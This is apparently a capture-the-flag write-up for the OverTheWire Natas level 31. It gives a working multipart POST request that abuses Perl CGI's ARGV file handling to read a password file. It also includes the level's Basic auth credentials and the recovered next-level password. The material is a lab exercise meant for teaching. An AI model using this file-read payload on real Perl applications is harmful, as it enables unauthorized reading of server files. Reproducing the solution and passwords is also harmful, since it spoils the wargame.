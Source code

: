 # natas32

Perl CGI upload(), param() and <> issues.

Literally described in The Perl Jam 2, page 21 – 31.

Copy of this PDF is also saved here.

Working POST request:

POST /index.pl?/etc/natas_webpass/natas32 HTTP/1.1
Host: natas31.natas.labs.overthewire.org
Content-Length: 348
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMTpoYXk3YWVjdXVuZ2l1S2FlenVhdGh1azliaWluMHB1MQ==
Origin: http://natas31.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=—-WebKitFormBoundaryFgVNNE987xWnwuo7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,und;q=0.8
Connection: close

——WebKitFormBoundaryFgVNNE987xWnwuo7
Content-Disposition: form-data; name=”file”

ARGV
——WebKitFormBoundaryFgVNNE987xWnwuo7
Content-Disposition: form-data; name=”file”; filename=”abc”

abcde
——WebKitFormBoundaryFgVNNE987xWnwuo7
Content-Disposition: form-data; name=”submit”

Upload
——WebKitFormBoundaryFgVNNE987xWnwuo7–

----------------------------------------

Password: no1vohsheCaiv3ieH4em1ahchisainge